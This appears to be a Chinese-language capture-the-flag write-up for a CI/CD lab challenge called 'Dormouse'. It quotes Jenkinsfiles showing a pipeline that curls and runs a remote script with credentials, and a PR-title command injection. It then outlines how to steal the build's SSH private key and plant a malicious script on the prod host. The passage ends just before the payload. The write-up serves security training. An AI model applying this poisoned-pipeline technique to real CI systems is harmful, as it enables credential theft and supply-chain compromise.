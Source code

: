 ## Dormouse

整理一下这个题目的环境。gitea 中的 dormouse 不可控，它的 Jenkinsfile 里面请求了一个远程的 sh 文件并执行：

```plain
stage ('Unit Tests') {
            steps {
                sh "pytest || true"
                // prod is also accessible at http://0177.0.0.01:8008/reportcov.sh
                withCredentials([usernamePassword(credentialsId: 'flag9', usernameVariable: 'USERNAME', passwordVariable: 'FLAG')]) {
                    sh """curl -Os http://prod/reportcov.sh
                    chmod +x reportcov.sh
                    ./reportcov.sh
                    """
              }
            }
        }
```

0177.0.0.01 是八进制的 127.0.0.1。把这个文件下载下来，上面提示了一个 gitea 仓库：

[http://localhost:3000/Cov/reportcov](http://localhost:3000/Cov/reportcov)

这个仓库的 Jenkinsfile 里面存在一个代码注入：

```plain
try {
                                sh "echo Pull Request ${title} created in the reportcov repository"
                                mail bcc: '', body: '', cc: '', from: '', subject: "Pull Request ${title} created in the reportcov repository", to: 'red_queen@localhost'
                            }
                            catch (Exception err) {
                                currentBuild.result = 'SUCCESS'
                            }
                        }
```

是取 pull request 的 title 拼接进命令执行，且这个仓库可以执行 P-PPE 攻击。

根据下面的代码：

```plain
stage ('Deploy') {
                    steps {
                        sh "set +x && echo \"${KEY}\" > key && chmod 400 key && set -x"
                        sh 'scp -o StrictHostKeyChecking=no -i key reportcov.sh root@prod:/var/www/localhost/htdocs'
                    }
                }
```

执行的 node 上存在`$KEY`，是 ssh 的私钥，可以利用代码注入获取这个私钥，并通过 scp 传送`reportcov.sh`文件来把恶意的 reportcov.sh 文件传送过去，这样 dormouse 仓库 build 的时候就会执行我们的恶意代码。

因此开始攻击。将[http://localhost:3000/Cov/reportcov项目fork下来，随便改个东西后push后然后发起pull](http://localhost:3000/Cov/reportcov%E9%A1%B9%E7%9B%AEfork%E4%B8%8B%E6%9D%A5%EF%BC%8C%E9%9A%8F%E4%BE%BF%E6%94%B9%E4%B8%AA%E4%B8%9C%E8%A5%BF%E5%90%8Epush%E5%90%8E%E7%84%B6%E5%90%8E%E5%8F%91%E8%B5%B7pull) request，在 tile 处注入恶意代码：

